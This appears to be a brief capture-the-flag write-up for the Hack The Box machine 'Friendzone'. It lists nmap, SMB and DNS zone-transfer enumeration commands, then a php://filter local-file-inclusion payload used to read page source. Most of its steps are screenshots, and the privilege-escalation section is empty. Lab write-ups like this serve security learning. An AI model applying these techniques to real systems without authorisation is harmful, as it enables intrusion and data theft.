 # Friendzone Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -T4 -sC -sV -oA friendzone 10.10.10.123``

![image](https://user-images.githubusercontent.com/123066149/227715804-9215496e-3212-469c-9da1-272ade4a802c.png)

# ${{\color{purple}Initial Foothold}}\ $

### SMB enum

``smbmap -H 10.10.10.123``

![image](https://user-images.githubusercontent.com/123066149/227715847-cc1680ce-78f5-4084-9049-abbb1956db7d.png)

``smbclient //10.10.10.123/general``

![image](https://user-images.githubusercontent.com/123066149/227715872-df527fba-0711-43e1-b6af-d8db2f05a723.png)

![image](https://user-images.githubusercontent.com/123066149/227715906-0a8e9703-d052-4a94-bb56-0ebed1a64826.png)

### Web enum

![image](https://user-images.githubusercontent.com/123066149/227716034-45ddf9e5-3391-4958-a484-8b4432dd6f9a.png)

![image](https://user-images.githubusercontent.com/123066149/227717200-c5afeb24-6b94-4087-b72d-1c78f0607f13.png)

### DNS enum

``dig axfr @10.10.10.123 friendzone.red``

![image](https://user-images.githubusercontent.com/123066149/227717361-e5234c86-9ff2-48f1-a030-ed286133ef53.png)

``dig axfr @10.10.10.123 friendzoneportal.red``

![image](https://user-images.githubusercontent.com/123066149/227717371-0b0457e9-2a73-4fb8-84d7-0a683de8e41f.png)

``cat transfertdezones | grep IN | grep friendzone |awk '{print $1}' |sort -u |sed 's/\.$//g'``

![image](https://user-images.githubusercontent.com/123066149/227717410-eb5cca38-32b9-4aa7-99e1-ffedca50dbe6.png)

``:%s/\n/ /g``

![image](https://user-images.githubusercontent.com/123066149/227717528-fe3d6f81-9df7-47fb-8c1c-c7cb5d0924c3.png)


# ${{\color{purple}Exploitation}}\ $

![image](https://user-images.githubusercontent.com/123066149/227717586-e965ab7e-c342-4c9b-bf7c-0d1aa3b29443.png)

``cat hosts | aquatone ``

![image](https://user-images.githubusercontent.com/123066149/227717634-2ac6ba4a-8b53-4614-8bfd-3a9b5e1a6043.png)

``file:///home/kali/Documents/htb/friendzone/aquatone_report.html#/``

![image](https://user-images.githubusercontent.com/123066149/227717700-c385116f-882a-4504-9a60-1cb5b4c600a7.png)

![image](https://user-images.githubusercontent.com/123066149/227717711-648aa72f-28d0-4f20-a493-02e73f3731d2.png)

![image](https://user-images.githubusercontent.com/123066149/227717731-05a021e8-9626-4868-b9ff-964a44ae592b.png)

![Capture](https://user-images.githubusercontent.com/123066149/227717846-1a2f0735-3c47-4733-9e4d-07e21c2726e6.PNG)

``php://filter/convert.base64-encode/resource=index``

![image](https://user-images.githubusercontent.com/123066149/227717866-cce155d7-e113-4c93-be7d-2b2573ab3a0c.png)

``echo -n azeazeazeeazea | base64 -d``

![image](https://user-images.githubusercontent.com/123066149/227717897-56948f7e-6460-4282-8487-ece63bd07159.png)

![image](https://user-images.githubusercontent.com/123066149/227718138-48a0fe3d-0cf6-44ca-b0f0-a0ff3d6c11f1.png)

![image](https://user-images.githubusercontent.com/123066149/227718179-67b46878-d50d-46b5-b124-9f7fc142fae2.png)

![image](https://user-images.githubusercontent.com/123066149/227718336-1144299c-c055-42c6-8568-cf98bd882486.png)

![image](https://user-images.githubusercontent.com/123066149/227718348-a2577025-134f-4d35-864b-6f0d3d5a7b92.png)


# ${{\color{purple}Privilege Escalation}}\ $

# ${{\color{purple}Point of Improvement}}\ $
